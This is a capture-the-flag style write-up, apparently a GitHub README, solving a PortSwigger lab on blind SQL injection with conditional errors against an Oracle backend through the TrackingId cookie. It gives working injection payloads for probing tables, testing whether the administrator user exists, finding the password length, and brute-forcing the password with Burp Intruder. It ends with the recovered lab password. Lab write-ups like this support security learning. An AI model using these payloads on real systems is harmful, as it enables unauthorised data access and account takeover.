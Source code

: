 Lab Description:

![image](https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/37527be6-80ad-4666-a684-48c33534c655)

Solutions:

Request looks like this

![image](https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/5dcb68ed-962f-4def-904a-27f9f05d73f0)

Query looks like the following

```SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'```

1. Inducing error message -
Add an extra ' symbol. We see that error appears because of incorrect ssql syntax

SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''

![image](https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/2d545cc2-7f76-46f2-bedf-f62420fb5742)

Add 2 extra ' symbol, we get a response back which indicates that the sql syntax is correct ('' indicates opening and closing of query & hence correct sql query)

```SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'''```

![image](https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/a9b7b8b8-02da-4003-b850-64a7bc87a4d5)



2. Conform the reason for error is invalid SQL query -
To do this, you first need to construct a subquery using valid SQL syntax. Try submitting: TrackingId=xyz'||(SELECT '')||'

![image](https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/ab608f5d-e6ce-4e39-880e-815c114a0fda)

In this case, notice that the query still appears to be invalid. This may be because the database used here is ORACLE & for that we need to specify a table called DUAL. Hence we got this error.

Try specifying a predictable table name in the query: TrackingId=xyz'||(SELECT '' FROM dual)||'

We get a response without any error , we can confrom that it is an ORACLE database which requires all SELECT statements to explicitly specify a table name.

To conform this we can give an invalid query by specifying some random table TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'


![image](https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/cc43a955-1177-4575-85fc-a85553f4f895)

Verify users table exist -
We can verify whether users table exist or not by the following command TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'

![image](https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/82fecc78-42e1-46ae-941a-ac6140dcf542)

No error -> implies that users table exist.

NOTE - Note that the WHERE ROWNUM = 1 condition is important here to prevent the query from returning more than one row, which would break > our concatenation.

Checking whether administrator user is present in db -
We can exploit this error inducing queries to test if admin user is present or not

1.Set (1=1) ie. Condition is TRUE - TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'

![image](https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/ef758f56-784b-4ece-8749-b7c6adff0e0e)

We receive an error. means the condition is TRUE so it threw an divide by 0 error

Set (1=2) ie. Condition is FALSE - TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
![image](https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/21df0662-c1e1-4689-b2e4-cd29f63d776b)

We get a 200 response , means the condition failed and hence it returned nothing !

NOTE- This demonstrates that you can trigger an error conditionally on the truth of a specific condition. The CASE statement tests a condition and evaluates to one expression if the condition is true, and another expression if the condition is false. The former expression contains a divide-by-zero, which causes an error. In this case, the two payloads test the conditions 1=1 and 1=2, and an error is received when the condition is true.

We can use this behavior to test whether specific entries exist in a table. For example, use the following query to check whether the username administrator exists:
```TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'```

![image](https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/a17abb93-8465-4dab-b499-7e4b0abc6651)

It shows an error which means there is indeed a user called administrator

Determine the length of admin's password -

```TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'```

RESPONSE -

ERROR -> Condition is TRUE
NUlll response -> Condition is FALSE
The length of password will be definitly > 1 , so we get an error.

![image](https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/73877b8a-a735-439f-8dd1-c6fd091114c7)
AUTOMATE THIS by Burp Intruder , by adding password length (LENGTH>1) as payload .

From req 20, we get an error where condition is (LENGTH > 20)

![image](https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/60b529bb-aedd-4945-80ee-15bf540b586b)

Bruteforce the admin's password -
```TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,$1$,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'```


Add the length of password & each letter to be bruteforced as payloads.

ATTACK TYPE - CLUSTER BOMB Payload 1 - Numbers Payload 2 - Bruteforcer

We get the 20 responses which returned a error.

Thus we got the admin's password - 61icvpfoshqibwec7loe

Now we can log in as administrator ,

![image](https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/cb4c6fd4-07c7-4740-9517-b50000438728)
